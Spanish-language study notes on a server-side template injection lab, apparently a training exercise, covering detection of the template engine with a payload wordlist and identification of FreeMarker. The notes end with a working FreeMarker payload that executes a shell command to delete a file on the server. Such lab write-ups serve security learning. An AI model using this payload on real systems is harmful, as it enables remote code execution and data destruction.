 Tenemos que detectar ante que sistema de plantillas estamos

![[Pasted image 20250118205450.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Usamos la wordlist de PayloadAllTheThings para detectar que sistema de plantillas se está usando, lo pasamos al intruder : 

![[Pasted image 20250118210449.png]]

El payload `#{3*3}` funciona, podría ser Slim o Haml (ruby)
El payload `${7*7}` también.


Es freemarker : 

![[Pasted image 20250118211852.png]]



```java
${"freemarker.template.utility.Execute"?new()("rm+/home/carlos/morale.txt")}
```

